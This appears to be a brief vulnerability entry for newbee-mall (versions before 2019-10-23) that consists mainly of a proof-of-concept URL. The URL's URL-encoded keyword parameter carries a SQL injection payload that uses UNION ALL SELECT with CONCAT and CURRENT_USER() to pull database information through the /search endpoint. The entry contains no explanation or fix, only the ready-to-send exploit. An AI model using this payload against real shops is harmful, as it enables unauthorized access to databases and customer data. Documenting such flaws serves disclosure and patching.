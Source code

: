 <languages /> <translate>

漏洞影響
--------

</translate> newbee-mall version before 2019-10-23

POC
---

    http://<target>/search?goodsCategoryId=&keyword=%5C%25%27%29%29%20%55%4E%49%4F%4E%20%41%4C%4C%20%53%45%4C%45%43%54%20%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%4E%55%4C%4C%2C%43%4F%4E%43%41%54%28%30%78%37%31%37%36%36%32%37%38%37%31%2C%49%46%4E%55%4C%4C%28%43%41%53%54%28%43%55%52%52%45%4E%54%5F%55%53%45%52%28%29%20%41%53%20%43%48%41%52%29%2C%30%78%32%30%29%2C%30%78%37%31%36%32%37%38%36%62%37%31%29%2C%4E%55%4C%4C%2C%4E%55%4C%4C%23&orderBy=default